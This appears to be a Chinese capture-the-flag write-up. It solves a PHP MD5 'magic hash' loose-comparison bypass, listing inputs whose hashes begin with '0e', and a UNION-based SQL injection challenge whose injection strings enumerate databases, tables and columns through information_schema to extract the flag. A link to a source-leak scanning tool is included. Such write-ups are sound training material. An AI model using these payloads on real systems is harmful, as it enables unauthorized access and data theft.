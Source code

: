   然后分析构造payload，这里有一个知识点，用MD5加密的过程中，如果两个字符经MD5加密后的值为 0exxxxx形式，就会被认为是科学计数法，且表示的是0*10的xxxx次方，还是零，都是相等的。

  下列的字符串的MD5值都是0e开头的数字：

  QNKCDZO

  240610708

  s878926199a

  s155964671a

  s214587387a

比较md5(username),md5(password),md5(code)类型和值，双等于存在漏洞的原因其实是，0E开头的MD5值php解析器会解析为numerical strings，在双等于（==）情况下，会先判断类型，识别为numerical strings，会强制转换为数字，所以0e开头的MD5值都为0，所以才能绕过，然而三等于就比较有脾气了，必须一对一的核对两个字符串，不存在什么类型转换问题，所以开头0e相同，后面不同，也就不满足了


  所以构造payload：
  ```html
  index.php?kkey1=QNKCDZO&kkey2=240610708
  ```
  按下回车就得到了flag

  另：有一个扫描查看源码泄露的脚本，使用指南和下载地址如下：
  https://coding.net/u/yihangwang/p/SourceLeakHacker/git?public=true

  ## 成绩单

  判断是数据库的问题，一开始犯蠢在url框里面写payload。。。。
根据昨天所学的知识，我们先输入1，可以输出成绩单。然后输入1’发现失败，
在尾部添加一个#又可以正常显示了。Emmmm。。。然后由于成绩单里面有三个列，
所以从3开始试试看看到底有几个列。。。。
最终在输入-1’ union select 1,2,3,4#的时候能够显示出内容，由此确定了有四列。

这个地方有点迷：同样是post形式，
在查询框里面输入1’#就可以但是在hackbar里面写id=1‘#就不行，
然而用id=1也是可以正常显示的。。。这个地方很是让我困惑，
后来的payload也是在查询框里面写的。
第二个问题是，同样是注释，为啥#就可以起作用但是--+就不行，
考虑到题目的类型（水题），感觉不太可能是过滤掉了。。。很迷。。。。

已解决：--+的‘+’的意思是url中的空格，真实的注释仅仅是--

做完这一切后就可以开始了：
首先是查到所有数据库的名字
-1’ union select 1,2,group_concat(schema_name),4 from information_schema.schemata#  得到了数据库名字有一个叫做skctf_flag的
接下来，通过数据库名字查找表名
-1’ union select 1,2,group_concat(table_name),4 from information_schema.tables where table_schema=’skctf_flag’#		得到了一个叫做fl4g的一个表
接下来通过表明找列名
-1’ union select 1,2,group_concat(column_name),4 from information_schema.columns where table_name=’fl4g’# 得到了一个列名字叫做skctf_flag
最后通过列名找到内容
-1’union select 2,3,group_concat(skctf_flag),4 from skctf_flag.fl4g#
得到flag
